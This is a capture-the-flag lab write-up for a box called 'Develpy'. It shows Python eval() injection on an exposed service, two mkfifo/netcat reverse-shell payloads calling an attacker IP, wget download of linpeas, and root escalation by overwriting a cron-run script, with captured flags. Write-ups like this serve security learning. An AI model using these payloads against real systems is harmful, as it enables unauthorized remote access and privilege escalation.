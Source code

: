 Develpy

------------------------------
Aaron Aguilar
03-02-2023
------------------------------

first i scan with nmap with this tag 
```
$sudo nmap -T5 -p- 10.10.252.225 -oN nmap_inital.txt | tee nmap.te

sudo nmap -sV -sC p 22,1000 10.10.252.225 -T5 -vvv

and i got this ports open

PORT      STATE SERVICE           REASON         VERSION
22/tcp    open  ssh               syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

10000/tcp open  snet-sensor-mgmt? syn-ack ttl 63
| fingerprint-strings: 
|   GenericLines: 
|     Private 0days
|     Please enther number of exploits to send??: Traceback (most recent call last):
|     File "./exploit.py", line 6, in <module>
|     num_exploits = int(input(' Please enther number of exploits to send??: '))
|     File "<string>", line 0
|     SyntaxError: unexpected EOF while parsing

```
port 22 and 10000 is open
checking on using netcat ip:10000 it shows that there is a python code injection vulnerability

```
nc 10.10.90.237 10000 

        Private 0days

 Please enther number of exploits to send??: 
 ─$ nc 10.10.90.237 10000

         Private 0days

  Please enther number of exploits to send??: a
 Traceback (most recent call last):
   File "./exploit.py", line 6, in <module>
     num_exploits = int(input(' Please enther number of exploits to send??: '))
   File "<string>", line 1, in <module>
 NameError: name 'a' is not defined

```
I checked for python command injection and found out about the eval() exploit,
on my attack machine I set up the nc listener and run the netcat code in the victim machine

```
victim machine
nc 10.10.90.237 10000

        Private 0days

 Please enther number of exploits to send??: eval('__import__("os").system("mkfifo /tmp/lol;nc 10.18.70.19 4444 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol")')

└─$ rlwrap nc -lnvp 4444            
listening on [any] 4444 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.90.237] 51004
/bin/sh: 0: can't access tty; job control turned off
$ whoami
king
$ ls
credentials.png
exploit.py
root.sh
run.sh
user.txt
$ ls /home
king
$ cat user.txt
cf85ff769cfaaa721758949bf870b019
$ 
```
before anything else I have to upgrade the shell since this is a dumbshell
```

python -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z
stty raw -echo;fg
export TERM=xterm
````
# 2. Root txt
Now I just need to escalate my priveleges
```
$ env
LANGUAGE=en_US:
SHLVL=1
SOCAT_PEERADDR=10.18.70.19
HOME=/home/king
SOCAT_PEERPORT=50878
SOCAT_SOCKADDR=10.10.90.237
SOCAT_VERSION=1.7.3.1
SOCAT_SOCKPORT=10000
LOGNAME=king
_=/root
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
LANG=en_US.UTF-8
SHELL=/bin/sh
PWD=/home/king
SOCAT_PID=1044
SOCAT_PPID=786

drwxr-xr-x 4 king king   4096 Aug 27  2019 .
drwxr-xr-x 3 root root   4096 Aug 25  2019 ..
-rw------- 1 root root   2929 Aug 27  2019 .bash_history
-rw-r--r-- 1 king king    220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 king king   3771 Aug 25  2019 .bashrc
drwx------ 2 king king   4096 Aug 25  2019 .cache
-rwxrwxrwx 1 king king 272113 Aug 27  2019 credentials.png
-rwxrwxrwx 1 king king    408 Aug 25  2019 exploit.py
drwxrwxr-x 2 king king   4096 Aug 25  2019 .nano
-rw-rw-r-- 1 king king      5 Mar  1 22:20 .pid
-rw-r--r-- 1 king king    655 Aug 25  2019 .profile
-rw-r--r-- 1 root root     32 Aug 25  2019 root.sh
-rw-rw-r-- 1 king king    139 Aug 25  2019 run.sh
-rw-r--r-- 1 king king      0 Aug 25  2019 .sudo_as_admin_successful
-rw-rw-r-- 1 king king     33 Aug 27  2019 user.txt
-rw-r--r-- 1 root root    183 Aug 25  2019 .wget-hsts
```
I dont know what to do so I used linpeas I hosted linpeas in my server to download in the victim machine
```
king@ubuntu:/dev/shm$ wget http://10.18.70.19/linpeas.sh
wget http://10.18.70.19/linpeas.sh
--2023-03-01 22:31:29--  http://10.18.70.19/linpeas.sh
Connecting to 10.18.70.19:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 828087 (809K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh          100%[===================>] 808.68K   520KB/s    in 1.6s    

2023-03-01 22:31:31 (520 KB/s) - ‘linpeas.sh’ saved [828087/828087]

king@ubuntu:/dev/shm$ chmod +x linpeas.sh
chmod +x linpeas.sh
king@ubuntu:/dev/shm$ ./linpeas.sh
./linpeas.sh
```
this seems like a possible escalation vulnerability because it runs everyminute everyday
and is owned by king
```

17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   king    cd /home/king/ && bash run.sh
*  *    * * *   root    cd /home/king/ && bash root.sh
*  *    * * *   root    cd /root/company && bash run.sh

````
since the root.sh file is in our home folder, and we do not have read/write access to it, we have to delete it and make a new file named root.sh and enter this code below to intercept the root 
```

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.70.19 4445 >/tmp/f




```
````

└─$ nc -nlvp 4445
listening on [any] 4445 ...
connect to [10.18.70.19] from (UNKNOWN) [10.10.18.68] 36496
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls /root
company
root.txt
# cat /root/root.txt
9c37646777a53910a347f387dce025ec
#

```
